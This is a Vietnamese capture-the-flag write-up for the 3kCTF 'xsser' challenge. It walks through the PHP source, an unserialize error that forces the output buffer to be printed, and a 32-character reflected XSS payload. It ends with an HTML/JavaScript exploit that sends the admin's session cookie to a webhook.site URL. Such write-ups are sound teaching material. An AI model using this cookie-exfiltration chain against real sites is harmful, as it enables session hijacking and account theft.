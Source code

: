 ```yaml
---
title: xsser - 3kCTF
date: 2020-07-29
description: ""
categories:
  - CTF
tags:
  - xss
  - web
  - php
menu: main
---
```

Nguồn: <https://ctftime.org/writeup/22594>

Truy cập vào đường link <http://xsser.3k.ctf.to/> trang sẽ tự chuyển hướng thành [http://xsser.3k.ctf.to/?**login=O:4:"User":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:0;}**](http://xsser.3k.ctf.to/?login=O:4:"User":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:0;})

và đây là nội dung file index.php

```php
<?php
include('flag.php');
class User

{
    public $name;
    public $isAdmin;
    public function __construct($nam)
    {
        $this->name = $nam;
        $this->isAdmin=False;
    }
}

ob_start();
if(!(isset($_GET['login']))){
    $use=new User('guest');
    $log=serialize($use);
    header("Location: ?login=$log");
    exit();

}

$new_name=$_GET['new'];
if (isset($new_name)){

  if(stripos($new_name, 'script'))//no xss :p
                 {
                    $new_name = htmlentities($new_name);
                 }
        $new_name = substr($new_name, 0, 32);
  echo '<h1 style="text-align:center">Error! Your msg '.$new_name.'</h1><br>';
  echo '<h1>Contact admin /req.php </h1>';

}
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
        }
$check=unserialize(substr($_GET['login'],0,56));
if ($check->isAdmin){
    echo 'welcome back admin ';
}
ob_end_clean();
show_source(__FILE__);
```

Thoạt nhìn có thể khai thác được xss thông qua `$_GET['new']` , nhưng nó nằm trong `ob_start()` và `ob_end_clean()` ( lưu output vào buffer và clean) nên dù có khai thác được xss thì `$_GET['new']` cũng không được in ra trình duyệt.

Nhưng khoan, vậy thì hàm `htmlentities()` chống xss để làm gì.

Dạo một vòng php documentation thì phát hiện [ob_start()#108016](https://www.php.net/manual/en/function.ob-start.php#108016), cụ thể khi có lỗi throw ra trong buffer thì nó in ra tất cả những gì đang có trong buffer.

Vì vậy ta nên khai thác lỗi các hàm khác để buffer được in ra, từ đó khai thác tiếp xss.

[unserialize()#112894](https://www.php.net/manual/en/function.unserialize.php#112894) cho ta biết nếu object truyền vào không thể khởi tạo (Abstract Class hoặc Interface) thì sẽ throw lỗi. Vậy nên ta xây dựng payload là một string đã serialized.

Dựa trên [unserialize()#66147](https://www.php.net/manual/en/function.serialize.php#66147) để build một payload: `O:8:"Iterator":0:{}` truyền vào `$_GET['login']`

Nhận thấy `htmlentities()` chỉ thực thi khi phát hiện `'script'` truyền vào. Vậy ta sẽ dùng payload inline xss: `<svg/onload=alert(1)>` truyền vào `$_GET['new']`

Truy cập: [http://xsser.3k.ctf.to/?login=O:8:"Iterator":0:{}&new=<svg/onload=alert(1)>](http://xsser.3k.ctf.to/?login=O:8:%22Iterator%22:0:%7B%7D&new=%3Csvg/onload=alert(1)%3E)

Kết quả:

![XSS exploited](img/untitled.png)

Vậy là chạy được script tiêm vào. Nhưng script bị giới hạn chỉ 32 kí tự, và không dùng được script tag. Tìm payload ngắn nhất trên google ra được [bài này](https://brutelogic.com.br/blog/shortest-reflected-xss-possible/).

Chúng ta có 2 lựa chọn:

1. Có một domain 4 kí tự trở xuống chứa script `<svg/onload=import('xxxx.yy')>`
2. Lưu script vào `window.name` rồi thực thi `<svg/onload=eval(name)>`

Mình chọn cách 2 vì đơn giản hơn. Việc còn lại là lấy được `$flag` thông qua cookie của admin

```php
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
```

Như chúng ta thấy cookie chỉ được set khi địa chỉ truy cập là `127.0.0.1` tức là `localhost` vậy khi viết script chúng ta sẽ trỏ tới `127.0.0.1` thay vì `xsser.3k.ctf.to`

Bạn cần host script của bạn và submit vào <http://xsser.3k.ctf.to/req.php> để admin truy cập.

Mình thích dùng [repl.it](http://repl.it) để host code, vì thằng này có thể chạy được `http` và cả `https` mà không bị chuyển hướng như [codesandbox.io](http://codesandbox.io). Và tất nhiên [webhook.site](https://webhook.site/) chuyển hướng cookie về và log lại

```html
<iframe id="xss" src="http://127.0.0.1/"></iframe>
<script>
  document.getElementById("xss").onload = function () {
    setTimeout(function () {
      window.open(
        "http://127.0.0.1/?login=O:11:%22Traversable%22:0:{}&new=%3Csvg/onload=eval(name)%3E",
        'window.location.href = "https://webhook.site/2efe831e-5b4e-43f2-a800-9734dd41d367?"+document.cookie'
      );
    });
  };
</script>
```

Copy link để submit nhớ bỏ `https` Link có dạng [http://ImmediateLavishCallbacks--five-nine.repl.co](https://immediatelavishcallbacks--five-nine.repl.co/)

![Submit XSS to Admin](img/untitled-1.png)

Có một điều thú vị là script sẽ chạy nếu như click thẳng vào link. Còn nhập link vào trình duyệt thì Chrome sẽ tự phát hiện popup và chặn. Vậy nên `window.open()` sẽ không dùng được. Các bạn có thể dùng cách khác là tạo `<a href={link xss} target={window.name}>` và dùng javascript để click vào link đó.

Như vậy là thành công

![Get cookie successfully](img/untitled-2.png)